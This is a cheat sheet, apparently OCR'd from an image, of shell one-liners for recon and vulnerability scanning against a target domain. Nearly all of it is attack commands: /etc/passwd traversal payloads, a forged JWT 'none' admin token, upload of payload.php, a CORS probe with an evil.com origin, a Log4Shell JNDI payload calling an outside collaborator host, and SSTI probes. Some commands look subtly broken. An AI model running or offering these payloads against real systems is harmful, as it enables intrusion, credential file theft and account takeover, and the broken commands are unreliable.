 ### Additional Specific Recon + Vulnerability Scanning Commands

#### Directory Traversal (Across All Endpoints)
```bash
cat all_urls.txt | gf lfi | qsreplace '../../../../../etc/passwd' | httpx -silent -fr 'root:x' -o traversal_hits.txt
```

#### Exposed Git Repos Finder (Automated)
```bash
subfinder -d target.com | httpx -silent -path /.git/HEAD -mc 200 -o exposed_git.txt
```

#### IDOR Discovery (Bruteforce Parameter Tampering)
```bash
cat all_urls.txt | gf idor | qsreplace 'id=123' | anew idor_urls.txt && qsreplace 'id=124' | httpx -silent -mc 200 -o possible_idor.txt
```

#### JWT Token Misconfig (None Algorithm)
```bash
cat all_urls.txt | grep -Ei 'jwt|token' | qsreplace 'eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.' | httpx -silent -mc 200 -o jwt_none.txt
```

#### Unrestricted File Upload (Testing Common Upload Points)
```bash
cat all_urls.txt | gf upload | qsreplace 'file=payload.php' | httpx -silent -upload-file payload.php -o upload_findings.txt
```

#### Path Confusion + Overlays (Detect Double Extensions)
```bash
cat all_urls.txt | sed 's/$/%00index.php/' | httpx -silent -mc 200 -o path_confusion.txt
```

#### CORS Wildcard + Credentials Misconfig
```bash
subfinder -d target.com | httpx -silent -path / -H 'Origin: https://evil.com' -hdrs | grep -i 'access-control-allow-origin' | grep 'evil.com' | tee weak_cors.txt
```

#### Log4Shell Finder (Old but Gold)
```bash
cat all_urls.txt | gf ssrf | qsreplace '${jndi:ldap://your-collaborator-url.burpcollaborator.net}' | httpx -silent
```

#### Server Side Template Injection (SSTI Detection)
```bash
cat all_urls.txt | gf ssti | qsreplace '{{7*7}}' | httpx -silent -fr '49' -o ssti_hits.txt
```
